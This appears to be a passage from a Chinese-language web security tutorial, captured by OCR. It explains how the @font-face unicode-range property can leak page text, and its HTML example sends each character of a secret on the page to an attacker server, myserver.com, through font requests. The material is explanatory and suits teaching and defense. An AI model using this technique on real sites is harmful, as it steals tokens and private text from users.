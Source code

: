 `&` 的 unicode 是 `U+0026`，因此只有 `&` 這個字會用不同的字體來顯示，其他都用同一個字體。

這招前端工程師可能有用過，例如說英文跟中文如果要用不同字體來顯示，就很適合用這一招。而這招也可以用來偷取頁面上的文字，像這樣：

``` html
<!DOCTYPE html>
<html>
  <body>
    <style>
      @font-face {
        font-family: "f1";
        src: url(https://myserver.com?q=1);
        unicode-range: U+31;
      }

      @font-face {
        font-family: "f2";
        src: url(https://myserver.com?q=2);
        unicode-range: U+32;
      }

      @font-face {
        font-family: "f3";
        src: url(https://myserver.com?q=3);
        unicode-range: U+33;
      }

      @font-face {
        font-family: "fa";
        src: url(https://myserver.com?q=a);
        unicode-range: U+61;
      }

      @font-face {
        font-family: "fb";
        src: url(https://myserver.com?q=b);
        unicode-range: U+62;
      }

      @font-face {
        font-family: "fc";
        src: url(https://myserver.com?q=c);
        unicode-range: U+63;
      }

      div {
        font-size: 4em;
        font-family: f1, f2, f3, fa, fb, fc;
      }
    </style>
    Secret: <div>ca31a</div>
  </body>
</html>
```
